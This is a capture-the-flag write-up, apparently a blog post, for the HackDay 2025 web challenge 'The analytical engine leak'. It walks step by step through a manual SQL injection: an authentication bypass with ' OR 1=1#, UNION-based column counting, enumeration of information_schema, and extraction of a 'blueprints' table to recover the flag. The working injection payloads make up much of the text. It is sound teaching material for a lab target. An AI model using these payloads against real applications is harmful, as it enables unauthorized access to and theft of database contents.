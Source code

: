 ```yaml
---
title: HackDay 2025 - The analytical engine leak
date: 2025-01-26
categories:
  - CTFs
  - HackDay 2025
  - Web
tags:
  - web
  - sqli
description: Web challenge exploiting a SQL Injection enabled extracting an encryption key hidden in a database using a UNION SQLi attack, thus revealing the flag. 🔍
---
```


## Description 

* Category: Web 
* Vulnerability: SQLi

>In the shadow of the huge copper chimneys, a dark plot is brewing. The engineers of the Inventors' Guild have developed a revolutionary device: a steam-powered analytical machine capable of deciphering all secret codes. But before it could be activated, a group of cyber-saboteurs, the Black Mist, infiltrated its network to steal the plans. Fortunately, the plans were encrypted.
>
>An allied spy intercepted a trail leading to the Steam Station's digital archives, where a secret database stores crucial information for deciphering the device's plans. However, access is restricted, and only a few people can extract the contents.
>
>Your mission: exploit a flaw in the system to recover the encryption key before it falls into the wrong hands. To avoid alerting an archivist, the use of automatic tools is prohibited. Manual exploitation only.
>
>no sqlmap or things like that allowed

[Link of the event](https://ctftime.org/event/2615)
## Enumeration 

![](assets/img_0128_0522_oxfng.png)

### Identify the vulnerability

Upon encountering a login field, a common first step is to test for **SQL Injection (SQLi)** vulnerabilities. This can be done by injecting characters commonly used in SQL queries, such as `'` or `"`. In this case, injecting these characters resulted in an error message, confirming the presence of an SQLi vulnerability:

![](assets/img_0128_0523_rpuqs.png)

This error indicates that the application integrates user input directly into SQL queries without proper sanitization, leaving it vulnerable to injection attacks. The clear error messages provide useful feedback, making it easier to exploit the vulnerability.

By injecting a basic SQL payload, such as `' OR 1=1#`, we were able to retrieve a response that included all user accounts :

![](assets/Pasted%20image%2020250128130428.png)

The task description mentions that there could be a hidden secret, and our goal is to recover the encryption key. To achieve this, we can attempt to use **UNION SQL Injection** to enumerate all existing tables and extract data from the database.

We can infer the backend query structure as follows:

```sql
SELECT username,password FROM users
```

Our goal is to manipulate this query to extract additional information from the database.
## Exploitation

To successfully exploit UNION SQLi, we need to satisfy two conditions:
1. The **number of columns** and their **order** must match between the original query and the injected query.
2. The **data types** of the columns in both queries must be compatible.


### 1. Determining the Number of Columns
```
whatever' UNION SELECT NULL#           (<= ERREUR)
whatever' UNION SELECT NULL,NULL#      (<= ERREUR)
whatever' UNION SELECT NULL,NULL,NULL# (<= OK !)
```
* Result: **3 columns** 

### 2. Determining Column Data Types

```
whatever' UNION SELECT 'a',NULL,NULL#
whatever' UNION SELECT NULL,'a',NULL#
whatever' UNION SELECT NULL,NULL,'a'#
```
* Result : 
	* All 3 columns accept strings.
	- The third column does not return data to the user, likely being used internally (e.g., for an ID).

### 3. Enumerating the Database

1. Listing Tables
```
whatever' UNION SELECT table_name,NULL,NULL FROM information_schema.tables#
```

Result: We discover a table named **`blueprints`**:

![](assets/img_0128_0524_wcghn.png)

2. Listing Columns of the `blueprints` Table
```
whatever' UNION SELECT column_name,NULL,NULL FROM information_schema.columns WHERE table_name='blueprints'#
```

![](assets/img_0128_0525_bpoul.png)

Result: The table contains 5 columns: `id`, `username`, `password` `description` and `file_name`.

3. Extracting Data from the `blueprints` Table
```
whatever' UNION SELECT description,file_name,NULL FROM blueprints#
```

![](assets/img_0128_0526_jfkvh.png)

Result: We find an interesting file name, **`secret_key.txt`**, which appears to be encoded in Base58. Decoding it reveals the final flag:

`HACKDAY{$ea5y_INjeCTion$}`